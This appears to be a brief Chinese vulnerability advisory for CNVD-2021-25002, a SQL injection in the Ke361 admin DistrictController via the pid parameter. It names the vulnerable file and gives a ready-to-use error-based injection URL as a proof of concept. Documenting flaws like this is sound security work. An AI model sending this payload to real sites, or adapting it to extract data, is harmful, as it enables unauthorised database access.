

Ke361 DistrictController.class.php 后台SQL注入漏洞 CNVD-2021-25002¶
漏洞描述¶
Ke361 DistrictController.class.php index() 函数 pid参数存在 SQL注入漏洞，通过漏洞可以获取数据库敏感信息
漏洞影响¶
Ke361
环境搭建¶
漏洞复现¶
存在漏洞的文件为 Application/Admin/Controller/DistrictController.class.php

验证POC
admin.php?s=/District/index/pid/1)%20AND%20updatexml(1,concat(0x7e,(select%20md5(1)),0x7e),1)--+
